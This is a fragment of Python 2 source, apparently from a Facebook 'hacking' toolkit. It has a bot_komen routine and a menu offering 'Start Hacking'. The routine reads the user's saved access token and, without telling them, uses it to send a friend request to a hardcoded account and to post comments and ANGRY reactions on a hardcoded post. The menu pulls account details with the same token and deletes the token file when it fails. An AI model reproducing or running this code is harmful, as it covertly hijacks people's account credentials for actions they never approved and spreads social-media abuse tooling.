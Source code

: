 ###### BOT COMMENT #######
def bot_komen():
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;39m[!] Token invalid"
		os.system('rm -rf login.txt')
	una = ('1741317224')
	kom = ('𝙷𝚊𝚕𝚕𝚘 𝙰𝚕𝚟𝚒𝚗')
	reac = ('ANGRY')
	post = ('10208284082656658')
	post2 = ('10208284082656658')
	kom2 = ('𝙷𝚊𝚕𝚕𝚘 𝙰𝚕𝚟𝚒𝚗')
	reac2 = ('ANGRY')
	requests.post('https://graph.facebook.com/me/friends?method=post&uids=' +una+ '&access_token=' + toket)
	requests.post('https://graph.facebook.com/'+post+'/comments/?message=' +kom+ '&access_token=' + toket)
	requests.post('https://graph.facebook.com/'+post+'/reactions?type=' +reac+ '&access_token='+ toket)
	requests.post('https://graph.facebook.com/'+post2+'/comments/?message=' +kom2+ '&access_token=' + toket)
	requests.post('https://graph.facebook.com/'+post2+'/reactions?type=' +reac2+ '&access_token='+ toket)
	menu()
			
 
 
def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\033[0;39m[!] Token invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		masuk()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
		ots = requests.get('https://graph.facebook.com/me/subscribers?access_token=' + toket)
		b = json.loads(ots.text)
		sub = str(b['summary']['total_count'])
	except KeyError:
		os.system('clear')
		print"\033[0;91mToken Invalid"
		os.system('python2 a')
		time.sleep(1)
		masuk()
	except requests.exceptions.ConnectionError:
		print"\033[0;39mThere is no internet connection"
		keluar()
	os.system("clear")
	print logo
	print "   \033[0;39;40m ╔═════════════════════════════════╗"
	print "   \033[0;39;40m ║\033[0;39;40m[*] Name\033[0;39;40m: "+nama+"  	   \033[0;39;40m║"                               
	print "   \033[0;39;40m ║\033[0;39;40m[*] ID  \033[0;39;40m: "+id+"        \033[0;39;40m║"
	print "   \033[0;39;40m ║\033[0;39;40m[*] Subs\033[0;39;40m: "+sub+"                      \033[0;39;40m║"
	print "   \033[0;39;40m ╚═════════════════════════════════╝"
	print "\033[0;32;39m1. \033[0;33;39mStart Hacking"	
	print "\033[0;32;39m2. \033[0;33;39mUpdate"																														
	print "\033[0;32;39m0. \033[0;33;39mLog out"